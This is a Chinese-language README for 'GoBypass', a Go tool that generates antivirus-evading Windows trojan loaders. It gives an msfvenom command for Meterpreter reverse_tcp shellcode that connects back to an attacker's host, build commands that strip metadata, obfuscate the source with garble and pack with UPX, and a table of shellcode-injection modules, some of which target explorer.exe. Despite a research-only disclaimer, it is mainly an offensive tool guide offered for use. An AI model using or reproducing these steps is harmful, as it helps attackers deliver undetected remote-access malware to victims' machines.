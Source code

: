 # GoBypass

### 免责声明

该工具仅用于安全研究，禁止使用工具发起非法攻击等违法行为，造成的后果使用者负责

### 介绍

`Golang`免杀马生成工具（该工具仅针对`Windows`系统）

不确定免杀效果如何，核心部分借鉴大佬的代码然后自己造轮子

使用参考视频：https://www.bilibili.com/video/BV1iu411d7QB

**注意：如果出现error错误请自行检查代码，代码在windows 10下go 1.17且依赖完善的情况下测试不存在错误**

![LOGO](/img/logo.png)

### 准备工作

在`kali`中使用`msfvenom`生成需要的`payload`（注意使用`-f c`参数）

示例：`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=ip lport=port -f c`

复制完整C语言格式的`shellcode`并写入当前目录的`shellcode.txt`

（无需过多处理，内部会对ShellCode进行编码）

### 生成免杀马

在生成免杀马之前请注意以下三件事

1. 确保安装`Golang`且环境变量中包含`go`否则无法编译
2. 请在当前目录先执行`go env -w GO111MODULE=on`然后`go mod download`命令下载依赖
3. 如果下载依赖过慢配置镜像`go env -w GOPROXY=https://mirrors.aliyun.com/goproxy`

一切就绪后就可以开始生成了

示例：

1. 使用`CreateThread`模块并删除编译信息：`go run main.go -m CreateThread -d`
2. 删除编译信息且用`garble`混淆源码后编译：`go run main.go -m CreateThread -d -g`
3. 编译后的可执行文件进行`upx`加壳：`go run main.go -m CreateThread -d -g -u`

可选参数如下

| 参数  |                参数说明                 |  参数类型  | 是否必须 |
|:---:|:-----------------------------------:|:------:|:----:|
| -m  |                使用模块                 | string |  是   |
| -s  |    shellcode文件（默认shellcode.txt）     | string |  否   |
| -d  |         使用ldflags -s -w进行编译         |  bool  |  否   |
| -r  |     使用竞态检测器-race进行编译（可能提高免杀效果）      |  bool  |  否   |
| -w  | 隐藏窗口ldflags -H windowsgui（可能降低免杀效果） |  bool  |  否   |
| -u  |           最终生成的exe进行UPX加壳           |  bool  |  否   |
| -g  |        使用garble进行编译（对源码进行混淆）        |  bool  |  否   |
| -h  |               查看帮助信息                |  bool  |  否   |

其中必须的模块参数如下

| 模块名                      | 简介                                              |
|:-------------------------|:------------------------------------------------|
| CreateFiber              | 利用Windows CreateFiber函数                         |
| CreateProcess            | 利用Windows CreateProcess函数在挂起状态下创建进程             |
| CreateRemoteThread       | 远程进程注入ShellCode（注入explorer.exe）                 | 
| CreateRemoteThreadNative | 和上一条区别在于使用更底层的方式（注入explorer.exe）                |
| CreateThread             | 利用Windows CreateThread函数                        |
| CreateThreadNative       | 和上一条区别在于使用更底层的方式                                |
| CryptProtectMemory       | 利用Windows dpapi.h CryptProtectMemory函数          |
| CryptUnprotectMemory     | 利用Windows dpapi.h CryptUnprotectMemory函数        |
| EarlyBird                | 注入的代码在进程主线程的入口点之前运行                             |
| EtwpCreateEtwThread      | 利用Windows EtwpCreateEtwThread函数在进程中执行ShellCode  |
| HeapAlloc                | 创建一个可供调用进程使用的堆并分配内存写入ShellCode                  |
| NtQueueApcThreadEx       | 在当前进程的当前线程中创建一个特殊用户APC来执行ShellCode              |
| RtlCreateUserThread      | 利用Windows RtlCreateUserThread函数（注入explorer.exe） |
| UuidFromStringA          | 利用Windows UuidFromStringA函数                     |

### 参考

尤其感谢`Safe6Sec`师傅的项目

- https://github.com/safe6Sec/GolangBypassAV
- https://github.com/Ne0nd0g/go-shellcode
